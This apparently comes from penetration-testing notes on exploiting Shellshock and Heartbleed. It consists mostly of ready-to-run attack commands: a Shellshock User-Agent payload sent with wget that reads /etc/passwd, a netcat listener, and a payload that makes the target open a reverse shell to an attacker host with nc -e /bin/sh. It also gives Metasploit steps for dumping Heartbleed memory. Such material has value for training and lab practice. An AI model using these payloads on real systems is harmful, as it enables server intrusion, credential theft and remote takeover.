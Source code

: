 ### identify wheter or not the .cgi program is vulnerable to shellshock
- we can use **http-shellshock** Nmap NSE script For this.

```
nmap --script http-shellshock --script-args uri=/cgi-bin/login.cgi <target ip> -p 80
```
// its likely vulnerable

### Ways to Exploit
- There are multiple ways to exploit shellshock to gain control over a system.

```
wget -U "() { foo;}echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" http://<target ip>/cgi-bin/login.cgi && cat login.cgi
```
// we should get the /etc/passwd of the target


// wget will issue a GET request to the target system, use a Shellshock-ified User-Agent(-U) to echo the contents of /etc/passwd to a local file on our attacker system (login.cgi), and will then display its contents to us (&& cat login.cgi)


- Now that we confirmed that we can execute commands on the remote system, we can use that to our advantage. 

-set up a handler

```
nc -lvnp 1234
```

- set up the wget command with a reverse shell
 
```
wget -U "() { foo;echo; /bin/nc <kali ip> 1234 -e /bin/sh" http://<target ip>//cgi-bin/login.cgi
```

> if everything is correct, we should gain a reverse shell from our handler


## Exploiting Heartbleed

- Heartbleed, 2014, was a critical bug affecting OpenSSL versions 1.0.1 through 1.0.1f and allowed For the reading of encrypted data stored in memory due to a faulty implementation of the TLS (Transport Layer Security) and DTLS (Datagram Transport Layer Security) protocols heartbeat extension.

### Verify a vulnerable OpenSSL implementation
```
nmap --script ssl-heartbleed <target ip>
```
### After confirmed, we can use metasploit
```
use auxiliary/scanner/ssl/openssl_heartbleed
set action DUMP
set other options
run
// metasploit will store the result in ~/.msf4/loot directory as .bin file
```
